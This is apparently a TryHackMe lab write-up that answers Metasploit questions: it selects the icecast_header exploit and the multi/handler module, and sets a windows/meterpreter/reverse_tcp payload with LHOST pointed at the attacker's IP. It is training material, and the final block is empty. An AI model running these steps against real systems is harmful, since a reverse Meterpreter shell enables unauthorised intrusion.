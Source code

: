 6. Now that we've scanned our victim system, let's try connecting to it with a Metasploit payload. First, we'll have to search for the target payload. In Metasploit 5 (the most recent version at the time of writing) you can simply type 'use' followed by a unique string found within only the target exploit. For example, try this out now with the following command 'use icecast'. What is the full path for our exploit that now appears on the msfconsole prompt? *This will include the exploit section at the start
```
exploit/windows/http/icecast_header
```
7. While that use command with the unique string can be incredibly useful that's not quite the exploit we want here. Let's now run the command 'search multi/handler'. What is the name of the column on the far left side of the console that shows up next to 'Name'? Go ahead and run the command 'use NUMBER_NEXT_TO exploit/multi/handler' wherein the number will be what appears in that far left column (typically this will be 4 or 5). In this way, we can use our search results without typing out the full name/path of the module we want to use.
```
#

in our case we wanted to use "exploit/multi/handler"

msf5 exploit(windows/http/icecast_header) > search multi/handler

Matching Modules
================

   #  Name                                                 Disclosure Date  Rank       Check  Description
   -  ----                                                 ---------------  ----       -----  -----------
   0  auxiliary/scanner/http/apache_mod_cgi_bash_env       2014-09-24       normal     Yes    Apache mod_cgi Bash Environment Variable Injection (Shellshock) Scanner
   1  exploit/android/local/janus                          2017-07-31       manual     Yes    Android Janus APK Signature bypass
   2  exploit/linux/local/apt_package_manager_persistence  1999-03-09       excellent  No     APT Package Manager Persistence
   3  exploit/linux/local/bash_profile_persistence         1989-06-08       normal     No     Bash Profile Persistence
   4  exploit/linux/local/desktop_privilege_escalation     2014-08-07       excellent  Yes    Desktop Linux Password Stealer and Privilege Escalation
   5  exploit/linux/local/yum_package_manager_persistence  2003-12-17       excellent  No     Yum Package Manager Persistence
   6  exploit/multi/handler                                                 manual     No     Generic Payload Handler
   7  exploit/windows/browser/persits_xupload_traversal    2009-09-29       excellent  No     Persits XUpload ActiveX MakeHttpRequest Directory Traversal
   8  exploit/windows/mssql/mssql_linkcrawler              2000-01-01       great      No     Microsoft SQL Server Database Link Crawling Command Execution


msf5 exploit(windows/http/icecast_header) > use 6
msf5 exploit(multi/handler) > 
```
8. Now type the command 'use NUMBER_FROM_PREVIOUS_QUESTION'. This is the short way to use modules returned by search results. 
```
no answer needed

msf5 exploit(windows/http/icecast_header) > use 6
msf5 exploit(multi/handler) > 
```
9. Next, let's set the payload using this command 'set PAYLOAD windows/meterpreter/reverse_tcp'. In this way, we can modify which payloads we want to use with our exploits. Additionally, let's run this command 'set LHOST YOUR_IP_ON_TRYHACKME'. You might have to check your IP using the command 'ip addr', it will likely be your tun0 interface.
```
```
